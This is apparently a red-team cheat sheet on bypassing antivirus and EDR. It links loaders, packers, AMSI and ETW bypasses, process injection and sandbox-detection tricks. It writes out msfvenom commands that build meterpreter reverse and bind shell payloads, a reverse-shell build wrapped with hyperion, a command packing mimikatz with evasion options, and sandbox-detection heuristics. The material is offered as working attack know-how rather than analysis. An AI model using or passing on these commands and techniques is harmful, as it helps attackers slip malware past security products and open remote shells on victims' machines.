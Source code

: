 Bypass AV
Manual dropper
C++
https://blog.securityevaluators.com/creating-av-resistant-malware-part-1-7604b83ea0c0
Automatic dropper
https://github.com/marcusbotacin/Dropper
Manual loader
Reminder
allocating memory
moving shellcode into that memory
executing the shellcode
Go
https://djnn.sh/what-i-learned-writing-a-loader-in-golang
C
#include <iostream>
#include <Windows.h>

int main(void) {
  HMODULE hMod = LoadLibrary("shellcode.dll");
  if (hMod == nullptr) {
    cout << "Failed to load shellcode.dll" << endl;
  }

  return 0;
}
C++
https://medium.com/securebit/bypassing-av-through-metasploit-loader-64-bit-9abe55e3e0c8
https://github.com/ReversingID/Shellcode-Loader/tree/master/windows
.NET
https://sevrosecurity.com/2019/05/25/bypass-windows-defender-with-a-simple-shell-loader/
Ruby
https://blog.king-sabri.net/red-team/how-to-execute-raw-shellcode-using-ruby-on-windows-and-linux
Automatic loader
C++/C#
https://github.com/TheD1rkMtr/D1rkLrd
https://github.com/NtDallas/Ulfberht
https://github.com/vic4key/QLoader
https://github.com/xuanxuan0/DripLoader
https://github.com/Hagrid29/PELoader
https://github.com/icyguider/Shhhloader
https://github.com/TheD1rkMtr/Shellcode-Hide
https://github.com/ProcessusT/Dictofuscation
C
https://github.com/matro7sh/Selha/blob/main/C/aes-loader-stageless.c
https://github.com/cribdragg3r/Alaris
https://github.com/trustedsec/COFFLoader
https://github.com/stephenfewer/ReflectiveDLLInjection
https://github.com/Cracked5pider/KaynLdr
https://github.com/mgeeky/ElusiveMice
https://github.com/boku7/BokuLoader
Nim
https://github.com/aeverj/NimShellCodeLoader
https://github.com/sh3d0ww01f/nim_shellloader
https://github.com/S3cur3Th1sSh1t/Nim-RunPE
https://github.com/xl00t/yetAnotherNimCrypt
Go
https://github.com/matro7sh/myph
https://github.com/matro7sh/221b
https://github.com/EddieIvan01/gld
https://github.com/zha0gongz1/DesertFox
https://github.com/Ne0nd0g/go-shellcode
https://github.com/f1zm0/hades
https://github.com/D3Ext/Hooka
Rust
https://github.com/b1tg/rs_shellcode
https://github.com/r4ime/shellcode_loader
https://github.com/cr7pt0pl4gu3/Pestilence
https://github.com/memN0ps/srdi-rs
Crystal
https://github.com/js-on/WeaponizeCrystal/blob/main/shellcode_loader/shellcode_loader.cr
Generate shellcode
msfvenom
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<SERVER> LPORT=<PORT> -f raw
msfvenom -p windows/meterpreter/reverse_tcp LHOST=127.0.0.1 --encrypt rc4 --encrypt-key thisisakey -f dll
msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai '\x00' -i 30 RHOST=10.0.0.68 LPORT=9050 -f c | tr -d '"' | tr -d '\n' | more
C2 (Cobalt/Havoc what ever)
ASM
https://nytrosecurity.com/2019/06/30/writing-shellcodes-for-windows-x64/
Hyperion
wine hyperion.exe /root/payloads/shellter/shellter_putty_reverse_x86.exe
Manual obfuscation
Static
Packing
https://pentester.blog/?p=39
https://github.com/frank2/packer-tutorial
Polymorph
https://www.exploit-db.com/papers/13874
Signature hiding
https://www.ired.team/offensive-security/defense-evasion/av-bypass-with-metasploit-templates
CFG
ROP
https://improsec.com/tech-blog/bypassing-control-flow-guard-on-windows-10-part-ii
https://joshpitts.medium.com/hooking-control-flow-guard-cfg-for-fun-and-profit-31f951485545
https://citeseerx.ist.psu.edu/document?repid=rep1&type=pdf&doi=ade1cc22ee994c1b353326ae4cedccd29f33b8d0
CFG flattening
http://ac.inf.elte.hu/Vol_030_2009/003.pdf
Change logo/icon
https://learn.microsoft.com/en-us/dotnet/csharp/language-reference/compiler-options/resources?redirectedfrom=MSDN
Change date of compilation
Bypass AMSI
https://rastamouse.me/memory-patching-amsi-bypass/
https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/
https://www.pentestpartners.com/security-blog/patchless-amsi-bypass-using-sharpblock/
Description
Add signature
https://gist.github.com/jenaye/a0132882fed7072ea2bce33da40e0de5
dynamic
Network
C2 by DNS
P2P (hide ip from C2)
HTTPS
Direct syscalls
https://medium.com/@merasor07/av-edr-evasion-using-direct-system-calls-user-mode-vs-kernel-mode-fad2fdfed01a
https://thewover.github.io/Dynamic-Invoke/
Delayed execution
WaitForSingleObjectEx
https://www.purpl3f0xsecur1ty.tech/2021/03/30/av_evasion.html
Foliage
Ekko
A small sleep obfuscation technique that uses CreateTimerQueueTimer Win32 API
Deathsleep
https://github.com/janoglezcampos/DeathSleep
Disable ETW
https://www.mdsec.co.uk/2020/03/hiding-your-net-etw/
DInvoke
https://github.com/TheWover/DInvoke
Automatic obfuscation
Static
Packing
Office macro
https://github.com/sevagas/macro_pack
https://github.com/optiv/Ivy
https://github.com/phra/PEzor
https://github.com/klezVirus/inceptor
https://github.com/govolution/avet
https://github.com/Nariod/RustPacker
https://github.com/DavidBuchanan314/monomorph
https://github.com/upx/upx
https://github.com/EgeBalci/sgn
AMSI Bypass
https://github.com/CCob/SharpBlock
https://github.com/danielbohannon/Invoke-Obfuscation
https://github.com/klezVirus/Chameleon
https://github.com/tokyoneon/Chimera
Signature hiding
https://github.com/optiv/ScareCrow
ScareCrow -I /Path/To/ShellCode -d facebook.com
https://github.com/paranoidninja/CarbonCopy
LOLBIN
RemComSvc
https://gist.github.com/snovvcrash/123945e8f06c7182769846265637fedb
Entropy
https://github.com/kleiton0x00/Shelltropy
Dynamic
Disable ETW
https://github.com/optiv/ScareCrow
https://gist.github.com/tandasat/e595c77c52e13aaee60e1e8b65d2ba32
https://github.com/Soledge/BlockEtw
https://github.com/CCob/SharpBlock
Indirect syscall
https://github.com/optiv/Freeze
Freeze -I /PathToShellcode -encrypt -sandbox -o packed.exe
https://github.com/phra/PEzor
PEzor.sh -sgn -unhook -antidebug -text -syscalls -sleep=120 mimikatz/x64/mimikatz.exe -z 2
https://github.com/optiv/ScareCrow
https://github.com/klezVirus/SysWhispers3
https://github.com/jthuraisamy/SysWhispers2
Disable AV
https://github.com/APTortellini/unDefender
Block DLL
https://github.com/CCob/SharpBlock
Detect virtual machines
https://github.com/a0rtega/pafish
Process injection
CRT
with suspended
https://damonmohammadbagher.medium.com/bypassing-anti-virus-by-creating-remote-thread-into-target-process-45f145b2ac7a
APC (Asyncronous Procedure Call)
https://subscription.packtpub.com/book/security/9781789610789/8/ch08lvl1sec50/executing-the-inject-code-using-apc-queuing
https://github.com/LloydLabs/ntqueueapcthreadex-ntdll-gadget-injection
https://decoded.avast.io/janvojtesek/raspberry-robins-roshtyak-a-little-lesson-in-trickery/
Process hollowing
https://www.ired.team/offensive-security/code-injection-process-injection/process-hollowing-and-pe-image-relocations#relocation
https://sevrosecurity.com/2020/04/08/process-injection-part-1-createremotethread/
https://0xsp.com/security%20research%20%20development%20srd/defeat-the-castle-bypass-av-advanced-xdr-solutions/
https://github.com/0xsp-SRD/mortar
https://www.blackhat.com/docs/asia-17/materials/asia-17-KA-What-Malware-Authors-Don't-Want-You-To-Know-Evasive-Hollow-Process-Injection-wp.pdf
Thread execution hijacking
https://attack.mitre.org/techniques/T1055/003/
PSC (Ptrace System Calls)
Process Doppelganging
https://thehackernews.com/2017/12/malware-process-doppelganging.html
Dll injection
Reflective dll injection
https://disman.tl/2015/01/30/an-improved-reflective-dll-injection-technique.html
https://github.com/fancycode/MemoryModule
https://github.com/TheD1rkMtr/NTDLLReflection
https://github.com/reveng007/ReflectiveNtdll
https://www.ired.team/offensive-security/code-injection-process-injection/dll-injection

DLL Sideloading & Proxying
https://book.hacktricks.xyz/windows-hardening/windows-av-bypass#dll-sideloading-and-proxying
RWX
You put your region in RW, you write your shellcode, then you reprotect in RX, then you run the thread. This way your region is never in rwx
COM Hijack
https://www.mdsec.co.uk/2022/04/process-injection-via-component-object-model-com-irundowndocallback/
https://0xpat.github.io/Abusing_COM_Objects/
Remote thread
https://www.cyberbit.com/blog/endpoint-security/malware-mitigation-when-direct-system-calls-are-used/
User APC
https://www.cyberbit.com/endpoint-security/malware-mitigation-when-direct-system-calls-are-used/
Detect virtual machines (Sandbox)
Software
Count processus number
if >=40 its probably not a VM
User interaction
Send MessageBoxW
Check for internet
Datetime on compilation
Check for Computer name
VM = DESKTOP-[0-9A-Z]{7}
Hardware
CPUID timing
https://github.com/matro7sh/bof-collection/blob/main/src/checkVM/checkVM2.c
Typical user workstation has a processor with at least 2 cores, a minimum of 2 GB of RAM and a 100 GB hard drive
OSX
https://evasions.checkpoint.com/techniques/macos.html#macos-sandbox-methods
Tools
https://github.com/a0rtega/pafish
From PE to shellcode
https://github.com/S4ntiagoP/donut/tree/syscalls
https://github.com/hasherezade/pe_to_shellcode
https://github.com/monoxgas/sRDI
From .exe (build with .net) to .exe hidden
https://github.com/mkaring/ConfuserEx/releases/tag/v1.6.0
From alive beacon
Havoc
dotnet (object file)
Cobalt
BoF (Beacon object file)
From .net to BoF
https://github.com/CCob/BOF.NET
https://github.com/trustedsec/CS-Situational-Awareness-BOF
Extensions
Dll
Exe
Hta
Cpl
Link
